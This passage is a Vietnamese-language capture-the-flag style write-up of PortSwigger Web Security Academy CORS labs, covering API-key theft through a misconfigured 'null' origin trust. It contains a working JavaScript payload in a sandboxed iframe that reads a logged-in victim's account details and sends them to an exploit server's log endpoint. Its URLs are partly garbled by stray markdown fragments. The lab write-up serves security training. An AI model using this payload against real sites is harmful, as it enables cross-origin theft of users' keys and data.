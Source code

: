 Sau khi Store payload và Deliver to Victim thì chúng ta AccessLog để lấy dữ liệu từ website chúng ta muốn và in ra màn hình như sau : 

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion_accesslog.png?raw=true)


Chúng ta nhận thấy dòng log?key thì coppy và quan phần Decoder của BurpSuite để decode, chọn option url và chúng ta lấy được Apikey => submit để solve bài lab.

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion_apikey.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion_submitsolve.png?raw=true)

### Lab: CORS vulnerability with trusted null origin  

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin tưởng nguồn gốc "null".

Hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter

Tương tự như bài trước chúng ta phải leak đc APIkey của account được cấp sẵn. Tuy nhiên lỗ hồng lần này là vì CORS Origin : null chứ không phải là * như lần trước nên cách khai thác sẽ khác.

Truy cập bài lab tương tự như bài trên và bắt lại request để phân tích

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_truenull_request.png?raw=true)

Như đề bài mô tả thì web này lại tin cậy là null nên chúng ta gửi request kèm theo Origin : null và nhận đc như sau

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_truenull_verf.png?raw=true)

Chúng ta có thể sử dụng nhiều thủ thuật khác nhau để tạo ra một yêu cầu tên miền chéo có chứa giá trị null trong Origin Header. Điều này sẽ đáp ứng whitelist, dẫn đến truy cập tên miền chéo. Từ đó có payload như sau:


```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','![image](https://ac3e1f561f18f33a80d6a58f005900ee.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='![image](https://exploit-ac971f661f59f3b48092a571018c0000.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe>
```
Truy cập vào exploit server và Store payload Deliver to Victim để sent payload đi sau đó Access log để in ra màn hình data leak được như sau:
